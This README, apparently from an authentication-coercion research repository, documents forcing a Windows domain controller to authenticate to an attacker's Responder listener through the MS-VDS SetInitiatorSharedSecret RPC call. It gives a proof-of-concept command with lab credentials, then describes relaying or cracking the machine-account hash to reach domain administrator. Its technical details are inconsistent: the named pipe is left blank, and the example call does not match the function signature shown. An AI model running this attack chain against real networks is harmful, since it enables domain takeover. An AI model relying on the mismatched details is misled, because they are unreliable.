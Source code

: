 # MS-VDS - Remote call to IVdsServiceIscsi::SetInitiatorSharedSecret (opnum 8)

## Summary

+ **Protocol**: [[MS-VDS]: Virtual Disk Service (VDS) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db)

+ **Protocol UUID**: 118610b7-8d94-4030-b5b8-500889788e4e

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`IVdsServiceIscsi::SetInitiatorSharedSecret`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/d9179d8c-ece6-4e81-98ed-2fcca7ff6c25)

+ **Function operation number**: `8`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-VDS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) protocol (with uuid `118610b7-8d94-4030-b5b8-500889788e4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-VDS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-VDS]: Virtual Disk Service (VDS) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db) and allows to call RPC functions of this protocol. We will then call the remote [`IVdsServiceIscsi::SetInitiatorSharedSecret`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/d9179d8c-ece6-4e81-98ed-2fcca7ff6c25) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVdsServiceIscsi::SetInitiatorSharedSecret('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT SetInitiatorSharedSecret(
   [in, unique] VDS_ISCSI_SHARED_SECRET* pInitiatorSharedSecret,
   [in] VDS_OBJECT_ID targetId
 );
```

## References

+ Documentation of protocol [MS-VDS]: Virtual Disk Service (VDS) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/90977af2-515e-4fbd-809c-fdb280ab48db

+ Documentation of function `IVdsServiceIscsi::SetInitiatorSharedSecret`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-vds/d9179d8c-ece6-4e81-98ed-2fcca7ff6c25